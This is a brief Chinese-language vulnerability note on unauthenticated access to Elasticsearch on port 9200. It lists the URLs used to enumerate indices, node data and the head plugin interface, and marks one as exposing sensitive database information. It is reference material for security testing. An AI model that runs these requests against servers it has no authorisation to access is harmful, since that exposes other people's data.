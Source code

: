 # Elasticsearch-未授权访问

## 漏洞描述

Elasticsearch是用Java开发的企业级搜索引擎，默认端口9200，存在未授权访问漏洞时，可被非法操作数据

## 漏洞影响

> [!NOTE]
>
> Elasticsearch

## 漏洞复现

访问目标URL : http://xxx.xxx.xxx.xxx:9200/_node



```
http://localhost:9200/_cat/indices
http://localhost:9200/_river/_search //查看数据库敏感信息
http://localhost:9200/_nodes         //查看节点数据
http://localhost:9200/_plugin/head/  //web管理界面(head插件)
```

